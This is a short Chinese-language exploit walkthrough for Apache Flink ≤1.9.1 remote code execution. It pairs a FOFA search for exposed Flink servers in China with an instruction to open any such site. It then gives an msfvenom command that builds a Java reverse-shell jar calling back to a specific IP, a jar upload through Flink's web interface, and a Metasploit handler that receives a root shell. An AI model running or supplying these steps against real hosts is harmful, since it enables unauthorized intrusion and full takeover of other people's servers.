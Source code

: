 # Apache Flink <= 1.9.1(最新版本) 远程代码执行反弹shell

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-1.png)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

随便打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-2.png)

点击查看文件上传页面

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-3.png)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=39.99.135.123  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-4.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-6.png)

点击下 submit 

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-5.png)

反弹回来一个root 权限shell

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-7.png)